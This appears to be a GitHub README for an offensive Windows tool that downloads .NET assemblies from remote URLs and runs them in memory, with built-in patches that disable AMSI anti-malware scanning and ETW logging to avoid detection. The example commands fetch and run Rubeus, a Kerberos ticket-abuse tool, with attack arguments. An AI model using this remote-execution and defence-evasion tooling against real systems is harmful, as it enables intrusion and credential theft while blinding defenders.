 # Assembly Loader Tool

A C++ tool for loading and executing .NET assemblies from remote URLs with built-in AMSI/ETW bypass capabilities.

This tool must be compiled with C++17 standard support.
## Features

- **Remote Assembly Execution**: Load and run .NET assemblies directly from HTTP/HTTP URLs
- **AMSI Bypass**: Built-in patch for Anti-Malware Scan Interface
- **ETW Bypass**: Built-in patch for Event Tracing for Windows
- **TLS Support**: Secure HTTPS connections
- **Argument Passing**: Forward custom arguments to the loaded assembly

## Usage

```cmd
.\runAssembly.exe --url <http://host:port/path> [--] [extra_args]
```
![](./runAssembly.png)

Demo

[![Demo](https://img.youtube.com/vi/7mthhIauzkU/hqdefault.jpg)](https://www.youtube.com/watch?v=7mthhIauzkU)

### Options

| Option | Description |
|--------|-------------|
| `--url` | Full URL to the assembly (http or https) |
| `--help` | Show help message |
| `--` | Separator for extra arguments passed to the assembly |

**Note**: All options must appear before the `--` separator.

## Examples

```cmd
# Load assembly from HTTP URL
.\runAssembly.exe --url http://127.0.0.1:8000/rubeus.exe

# Load assembly from HTTPS URL with TLS enabled
.\runAssembly.exe --url https://example.com/rubeus.exe

# Load assembly and pass arguments to it
.\runAssembly.exe --url http://localhost/rubeus.exe -- klist

# Load from HTTPS with TLS and pass multiple arguments
.\runAssembly.exe --url https://127.0.0.1/rubeus.exe -- tgtdeleg /nowrap
```

## Security Features

- **AMSI Patch**: Automatically bypasses AMSI scanning for the loaded assembly
- **ETW Patch**: Disables Event Tracing for Windows to prevent detection

